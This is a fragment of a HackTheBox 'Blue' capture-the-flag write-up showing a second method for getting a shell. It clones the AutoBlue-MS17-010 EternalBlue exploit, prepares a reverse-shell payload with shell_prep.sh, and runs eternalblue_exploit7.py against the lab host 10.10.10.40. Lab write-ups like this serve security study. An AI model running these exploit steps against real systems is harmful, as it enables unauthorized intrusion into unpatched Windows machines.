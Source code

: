 <img src="https://github.com/laiyutong/HackTheBox/blob/main/Retired/Blue/blue/getflag.png" alt="getflag" width="60%">
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Retired/Blue/blue_shell/user.txt.png" alt="user.txt" width="60%">

<h2>SUBMIT FLAG</h2>
<h3>Method 2 - Shell</h3>
<b>command</b>：<code>git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
</code><br>
The <code>shell_prep.sh</code> script is used to generate the final payload.<br> 
What we need to do is specify the local host, local port and time of payload.<br> 
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Retired/Blue/blue_shell/shell_prep.png" alt="shell_prep" width="80%">
<b>command</b>：<code>python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_x64.bin</code><br>
